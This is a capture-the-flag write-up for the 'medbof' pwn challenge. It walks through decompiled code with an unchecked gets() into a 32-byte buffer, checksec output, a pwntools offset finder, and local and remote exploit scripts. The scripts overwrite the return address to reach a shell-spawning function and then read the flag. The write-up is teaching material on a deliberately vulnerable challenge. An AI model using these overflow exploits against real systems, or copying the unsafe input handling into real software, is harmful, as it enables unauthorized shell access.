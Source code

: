 ```yaml
---
layout: writeup
category: Cyber-Cooperative-CTF-2023
chall_description: N/A
points: 200
solves: 155
tags: pwn buffer-overflow ret2win
date: 2023-12-19
comments: false
---
```


a little harder this time  
`nc 0.cloud.chals.io 27380`  

[medbof](https://github.com/Nightxade/ctf-writeups/assets/CTFs/Cyber-Cooperative-CTF-2023/pwn/crashme.c)  

---

We're given an ELF binary, `medbof`. I decompiled with [Dogbolt](https://dogbolt.org/). Here is the relevant Hex-Rays decompilation:  

```c
//----- (0000000000400646) ----------------------------------------------------
int do_system()
{
  return system("/bin/sh");
}

//----- (0000000000400657) ----------------------------------------------------
__int64 do_input()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("a little harder this time");
  fflush(_bss_start);
  return gets(v1);
}
// 400520: using guessed type __int64 __fastcall gets(_QWORD);
// 400657: using guessed type char var_20[32];

//----- (0000000000400691) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  do_input();
  return 0;
}
```

Seems like a simple ret2win. We just need to find the address of the `do_system` function and overwrite the RIP (return address) with that address.  

First, let's run `checksec --file=medbof`:  

```
[*] '/home/nightxade/Documents/ctfsbackup/Cyber Cooperative CTF 2023/exploit/medbof/medbof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Very few protections enabled.  

`file medbof` returned this:  

```
medbof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b75cdcc9e3da83a9bbdcea25765f38519ce2acc, not stripped
```

The file isn't stripped, i.e. it still has its ELF symbols (this will allow us to get the address of `do_system`).  

Now that we've done the necessary recon, it's time to write an exploit. First, I used pwntools' cyclic function to find the offset of the RIP from our input:  

```py
from pwn import *

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

p.sendline(cyclic(50))
p.wait()
core = p.corefile
stack = core.rsp
info("rsp = %#x", stack)
pattern = core.read(stack, 4)
rip_offset = cyclic_find(pattern)
info(f'rip offset is {rip_offset}')
```

Basically, what the code above does, is, it runs until the RIP is the next value to be popped off the stack (i.e. when the `do_input` function is about to return), reads that value of the RIP, which should have been overwritten by the cyclic, and finds that value in the cyclic. From this, it is able to determine the offset of the RIP from the input.  

Once we have the offset of the RIP, pwning this program is simple. We just need a buffer of 40 bytes and then the address of the win function. Here was my local exploit implementation:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

elf = ELF('./medbof')
addr_win = elf.symbols['do_system']
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

And here was my corresponding remote solve:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = remote('0.cloud.chals.io', 27380)
print(p.recvuntil(b'time').decode('ascii'))

addr_win = 4195910 # from localsolve.py
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

Opening the remote connection in interactive mode provides us the shell. `ls` --> `cat flag.txt` gets us the flag!  

    flag{getting_better_at_hacking_binaries_i_see...}